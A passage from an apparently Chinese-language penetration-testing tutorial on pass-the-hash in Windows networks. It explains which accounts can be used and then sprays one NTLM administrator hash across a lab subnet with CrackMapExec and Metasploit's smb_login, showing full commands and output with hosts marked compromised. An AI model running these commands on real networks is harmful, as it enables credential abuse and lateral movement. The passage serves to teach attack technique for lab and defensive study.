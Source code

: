 把该值修改为1即可让非administrator本地管理员组用户获得管理员令牌

## 4、本地账户
Windows Vista系统前的机器，可以使用本地管理员组的所有用户进行PTH；Windows Vista系统后的机器，只有本地Administrator用户可以PTH

## 5、域账号
域账号不受UAC远程连接影响，域用户在本地管理员组或者域管均可PTH

# 二、Hash碰撞
在内网中，很多计算机安装的时候是使用相同的密码，当获得某台机器Hash时可以尝试碰撞其他相同密码的机器。

## 1、CrackMapExec
```plain
└─# crackmapexec smb 10.10.4.0/24 -u administrator -H :27d86657f458a28aeed03655ba6a6137 --local-auth
SMB         10.10.4.5       445    EXCHANGE         [*] Windows 10 / Server 2019 Build 17763 x64 (name:EXCHANGE) (domain:EXCHANGE) (signing:True) (SMBv1:False)
SMB         10.10.4.20      445    WIN2008-1        [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:WIN2008-1) (domain:WIN2008-1) (signing:False) (SMBv1:True)
SMB         10.10.4.21      445    WIN10-1          [*] Windows 10 / Server 2019 Build 19041 x64 (name:WIN10-1) (domain:WIN10-1) (signing:False) (SMBv1:False)
SMB         10.10.4.2       445    WIN2019-DC1      [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN2019-DC1) (domain:WIN2019-DC1) (signing:True) (SMBv1:False)
SMB         10.10.4.5       445    EXCHANGE         [+] EXCHANGE\administrator:27d86657f458a28aeed03655ba6a6137 (Pwn3d!)
SMB         10.10.4.20      445    WIN2008-1        [+] WIN2008-1\administrator:27d86657f458a28aeed03655ba6a6137 (Pwn3d!)
SMB         10.10.4.21      445    WIN10-1          [+] WIN10-1\administrator:27d86657f458a28aeed03655ba6a6137 (Pwn3d!)
SMB         10.10.4.2       445    WIN2019-DC1      [-] WIN2019-DC1\administrator:27d86657f458a28aeed03655ba6a6137 STATUS_LOGON_FAILURE
```

## 2、MSF
```plain
msf6 auxiliary(scanner/smb/smb_login) > use auxiliary/scanner/smb/smb_login
[*] New in Metasploit 6.4 - The CreateSession option within this module can open an interactive session
msf6 auxiliary(scanner/smb/smb_login) > set verbose false
verbose => false
msf6 auxiliary(scanner/smb/smb_login) > set threads 100
threads => 100
msf6 auxiliary(scanner/smb/smb_login) > set smbuser administrator
smbuser => administrator
msf6 auxiliary(scanner/smb/smb_login) > set smbpass aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
smbpass => aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
msf6 auxiliary(scanner/smb/smb_login) > exploit
[+] 10.10.4.5:445         - 10.10.4.5:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[+] 10.10.4.2:445         - 10.10.4.2:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[+] 10.10.4.21:445        - 10.10.4.21:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[+] 10.10.4.20:445        - 10.10.4.20:445 - Success: '.\administrator:aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137' Administrator
[*] 10.10.4.0/24:445      - Scanned  99 of 256 hosts (38% complete)
[*] 10.10.4.0/24:445      - Scanned 105 of 256 hosts (41% complete)
[*] 10.10.4.0/24:445      - Scanned 105 of 256 hosts (41% complete)
[*] 10.10.4.0/24:445      - Scanned 106 of 256 hosts (41% complete)
```